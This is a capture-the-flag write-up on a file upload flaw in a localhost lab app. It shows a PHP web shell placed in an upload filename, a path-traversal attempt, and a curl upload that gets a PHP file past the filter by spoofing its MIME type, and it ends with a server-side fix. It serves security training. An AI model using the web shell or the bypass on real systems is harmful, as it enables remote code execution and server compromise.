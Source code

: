 ## [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

This vulnerability is on the fie upload page: http://localhost:8080/index.php?page=upload.

By tring to upload several files, we can see that we can seemingly only send `.jpg` or `.jpeg` files:

- `test.jpeg` → `/tmp/test.jpeg succesfully uploaded.`
- `test.png` → `Your image was not uploaded.`
- `test.php` → `Your image was not uploaded.`

Local file inclusion doesn't work here: http://localhost:8080/?page=../../../../../../../tmp and
http://localhost:8080/?page=../../../../../../../tmp/test.jpeg only say `You can DO it !!!  :]`.

We tried to execute code during the filename validation with a file called `'<?php system($_GET[cmd]); ?>.jpeg'`, however it only resutls in `/tmp/.jpeg succesfully uploaded.`.

With `curl`, by copying the request sent from a browser and hardcoding the MIME type to `image/jpeg`, we get the flag:

```console
$ curl -X POST 'http://localhost:8080/index.php?page=upload#' -H 'Content-Type: multipart/form-data' -F 'uploaded=@unrestricted_file_upload/resources/test.php;type=image/jpeg' -F 'MAX_FILE_SIZE=100000' -F 'Upload=Upload' | grep flag
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/test.php succesfully uploaded.</pre>
```

The vulnerability can be fixed with stronger server-side validation, checking that the file corresponds to the MIME type.
